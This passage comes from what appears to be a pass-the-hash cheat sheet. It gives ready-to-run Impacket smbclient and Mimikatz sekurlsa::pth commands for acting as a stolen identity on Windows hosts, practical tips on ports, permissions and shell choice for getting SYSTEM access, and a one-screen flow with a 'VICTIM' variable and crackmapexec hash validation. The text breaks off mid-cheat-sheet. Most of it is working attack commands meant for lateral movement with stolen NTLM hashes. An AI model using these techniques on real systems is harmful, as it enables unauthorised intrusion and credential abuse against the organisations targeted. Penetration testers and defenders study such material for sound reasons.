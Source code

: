 8) SMB client session using hash (Impacket smbclient.py)
```bash
# Browse shares or drop files via SMB with a hash
smbclient.py -hashes $LM:$NT $DOMAIN/$USER@$VICTIM
# Inside smbclient: use C$  (to access C drive), ls, put, get, etc.
```

9) On-Windows Pass-the-Hash with Mimikatz (create process as stolen identity)
```none
# On a Windows host where you have Mimikatz and an NT hash:
mimikatz.exe
privilege::debug
# Launch a new process (e.g., PowerShell) under the specified NTLM credentials:
sekurlsa::pth /user:Administrator /domain:CORP /ntlm:8846f7eaee8fb117ad06bdd830b7586c /run:powershell.exe
# In the spawned process, access remote resources as that identity (e.g., \\server\C$)
```

Notes on formats and flags:
- Hash formats from dumps commonly look like: `user:RID:LMHASH:NTHASH:::`. Use the NT hash; LM often equals `aad3b4...`.
- In Impacket, you can pass only the NT by using `-hashes :<NT>`.
- For local accounts with Impacket, you can use `.` or the target hostname instead of a domain: `./Administrator@IP`.
- For domain accounts, if name resolution/DC lookup fails, add `-dc-ip <DCIP>`.

## Practical tips
- Ports and services:
  - SMB-based methods need 445 open.
  - WinRM uses 5985 (HTTP) or 5986 (HTTPS).
  - RDP uses 3389 and must have NLA/Remote Desktop enabled.
- Permissions:
  - Psexec/smbexec often require local admin on the target.
  - UAC remote restrictions can limit local admin tokens over the network; domain admin or proper policy settings may be needed for full admin over SMB/WinRM.
- Shell choice:
  - psexec yields a service-based SYSTEM shell (good for privesc and dumping).
  - wmiexec is fileless and stable for single commands/interactive prompt.
  - evil-winrm provides rich PowerShell interaction (file upload/download, scripts).
- Encoding/logging:
  - Use `-codec utf-8` with Impacket if output is garbled.
  - PTH will generate Windows Security logs (Event ID 4624 Type 3 using NTLM; service creation 7045 for psexec).
- Common pitfalls:
  - Wrong domain/local context: try `DOMAIN/user` vs `./user`.
  - Firewalls: WinRM often blocked; prefer SMB first if 445 is open.
  - Account lockouts: repeated bad attempts may lock accounts—validate carefully with CME/NetExec before brute attempts.
- Hash hygiene:
  - Always work with the NT hash; LM is rarely used today.
  - From secretsdump, copy exactly the NTHASH (32 hex chars).

## Minimal cheat sheet (one-screen flow)
```bash
# Vars
export VICTIM=10.10.10.15
export USER=Administrator
export DOMAIN=CORP      # Or '.' for local
export NT=<NTHASH>
export LM=aad3b435b51404eeaad3b435b51404ee

# Quick validate via SMB
crackmapexec smb $VICTIM -u $USER -H $NT -d $DOMAIN
# or
```